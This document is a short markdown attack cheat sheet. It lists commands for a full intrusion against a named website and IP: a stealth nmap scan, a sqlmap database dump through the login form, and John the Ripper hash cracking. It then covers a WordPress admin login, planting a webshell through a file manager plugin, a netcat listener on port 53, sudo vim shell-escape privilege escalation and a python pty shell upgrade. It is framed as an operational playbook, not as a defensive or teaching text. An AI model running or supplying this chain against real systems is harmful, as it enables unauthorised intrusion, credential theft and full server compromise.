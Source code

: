# List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`
Install a file manager plugin and replace a webpage with a webshell

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp
`nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data
`sudo -l`

privilege escalation (gtfobins)
`sudo vim -c ':!/bin/sh'` 

upgrade the shell to interact better with the system
`python3 -c 'import pty; pty.spawn("/bin/bash")'`